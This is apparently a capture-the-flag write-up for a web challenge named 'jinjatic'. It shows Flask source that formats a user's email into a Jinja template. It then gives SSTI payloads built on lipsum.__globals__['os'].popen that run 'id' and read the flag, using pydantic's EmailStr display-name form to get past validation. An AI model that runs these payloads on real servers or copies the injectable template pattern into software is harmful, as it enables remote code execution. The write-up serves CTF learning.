



# web - jinjatic




## Overview 

**Source :**

```py
from flask import Flask, render_template, request
from pydantic import BaseModel, EmailStr, ValidationError
from jinja2 import Template

app = Flask(__name__)

email_template = '''
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Email Result</title>
    <link href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
    <div class="container mt-5">
        <div class="alert alert-success text-center">
            <h1>Welcome on the platform !</h1>
            <p>Your email to connect is: <strong>%s</strong></p>
        </div>
        <a href="/mail" class="btn btn-primary">Generate another welcome email</a>
    </div>

    <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@4.5.2/dist/js/bootstrap.bundle.min.js"></script>
</body>
</html>
'''

class EmailModel(BaseModel):
    email: EmailStr

@app.route('/')
def home():
    return render_template('home.html')

@app.route('/mail')
def mail():
    return render_template('mail.html')

@app.route('/render', methods=['POST'])
def render_email():
    email = request.form.get('email')

    try:
        email_obj = EmailModel(email=email)
        return Template(email_template%(email)).render()
    except ValidationError as e:
        print(e)
        return render_template('mail.html', error="Invalid email format.")

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)
```

As we can see in the source, the app take a mail address, verifies the format, by using `EmailStr` and renders a template with this input inside.

This function is vulnerable to SSTI (Server Side Template Injection). Let's try to send a basic exploit.

Used payload comes from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#exploit-the-ssti-by-calling-ospopenread

Let's use `{{ lipsum.__globals__["os"].popen('id').read() }}` to try and RCE. To fit the email format, I'm gonna add `@b.c` at the end.

Unfortunately, the application returns an error, infact, the validator detects the `[]()`, triggering the error.



After looking at email norms, I found out that quoted email address, like `"aaa"@b.c` can contain special caracters, so `"{{lipsum.__globals__['os'].popen('id').read()}}"@b.c` should be valid. Unfortunately, the validator don't care about this norm and just throws an error.


So, I started to look at `EmailStr` function. After a bit of research, I found [this](https://github.com/pydantic/pydantic/discussions/2550) issue.




Basically, this is issue is telling that `EmailStr` also accepts the email format using `SomeTextRepresentiTheName <a@b.c>`. After trying a bit, I found out that the name part allowed `[]()`, as long as they are quoted, wich gives us the payload `"{{lipsum.__globals__['os'].popen('id').read()}}" <a@b.c>`.


## Exploit

Now that I can execute code, it's possible to get the flag `"{{lipsum.__globals__['os'].popen('../getflag').read()}}" <a@b.c>`.


Thanks for the challenge.
